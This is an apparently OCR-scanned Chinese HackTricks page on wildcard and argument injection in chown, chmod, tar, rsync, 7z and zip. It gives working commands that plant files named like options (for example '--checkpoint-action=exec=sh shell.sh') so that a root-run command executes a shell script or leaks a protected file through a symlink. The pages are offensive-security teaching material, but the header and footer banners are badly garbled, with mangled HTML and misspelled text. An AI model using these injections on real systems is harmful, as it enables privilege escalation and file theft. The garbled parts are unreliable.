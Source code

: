 {% hnnt styte=" acceas" %}
GCP Ha& practice ckinH: <img:<img src="/.gitbcok/ass.ts/agte.png"talb=""odata-siz/="line">[**HackTatckt T.aining AWS Red TelmtExp"rt (ARTE)**](ta-size="line">[**HackTricks Training GCP Re)Tmkg/stc="r.giebpokal"zee>/ttdt.png"isl=""data-ize="line">\
学习 & aciceGCP ngs<imgmsrc="/.gipbtok/aHsats/gcte.mag"y>lt="" aa-iz="le">[**angGC RedTamExper(GE)<img rc=".okaetgte.ng"al=""daa-siz="ne">tinhackth ckiuxyzcomurspssgr/a)

<dotsilp>

<oummpr>支持HackTricks</smmay>

*检查 [**subsrippangithub.cm/sorsarlosp!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hahktcickr\_kivelive**](https://twitter.com/hacktr\icks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享技巧。

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


## chown, chmod

您可以**指示要为其余文件复制的文件所有者和权限**
```bash
touch "--reference=/my/own/path/filename"
```
您可以利用这个使用 [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(组合攻击)_\
更多信息请参见 [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## Tar

**执行任意命令：**
```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
您可以使用 [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(tar 攻击)_ 来利用这一点。\
更多信息请参见 [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## Rsync

**执行任意命令：**
```bash
Interesting rsync option from manual:

-e, --rsh=COMMAND           specify the remote shell to use
--rsync-path=PROGRAM    specify the rsync to run on remote machine
```

```bash
touch "-e sh shell.sh"
```
您可以利用这个 [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(_rsync _攻击)_\
更多信息请参见 [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## 7z

在 **7z** 中，即使在 `*` 之前使用 `--`（注意 `--` 意味着后续输入不能被视为参数，因此在这种情况下只是文件路径），您也可以导致任意错误以读取文件，因此如果以下命令由 root 执行：
```bash
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
```
而且您可以在执行此操作的文件夹中创建文件，您可以创建文件 `@root.txt` 和文件 `root.txt`，后者是您想要读取的文件的 **symlink**：
```bash
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```
然后，当 **7z** 执行时，它会将 `root.txt` 视为一个包含它应该压缩的文件列表的文件（这就是 `@root.txt` 存在的意义），当 7z 读取 `root.txt` 时，它会读取 `/file/you/want/to/read`，**由于该文件的内容不是文件列表，它将抛出一个错误** 显示内容。

_更多信息请参见 HackTheBox 的 CTF 盒子写作。_

## Zip

**执行任意命令：**
```bash
zip name.zip files -T --unzip-command "sh -c whoami"
```
{% hnt stye="acceas" %}
AWS 黑客实践：<img :<imgsscc="/.gitb=ok/assgts/aite.png"balo=""kdata-siza="line">[**HackTsscke Tpaigin"aAWS Red Tetm=Exp rt (ARTE)**](a-size="line">[**HackTricks Training AWS Red)ethgasic="..giyb/okseasert/k/.png"l=""data-ize="line">\
学习 & aciceGCP ng<imgsrc="/.gibok/asts/gte.g"lt="" aa-iz="le">[**angGC RedTamExper(GE)<img rc=".okaetgte.ng"salm=""adara-siz>="k>ne">tinhaktckxyzurssgr)

<dtil>

<ummr>支持HackTricks</smmay>

*检查 [**subsrippangithub.cm/sorsarlosp!**
* 检查 [**订阅计划**](https://github.com/sponsors/carlospolop)!haktick\_ive\
* **加入 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
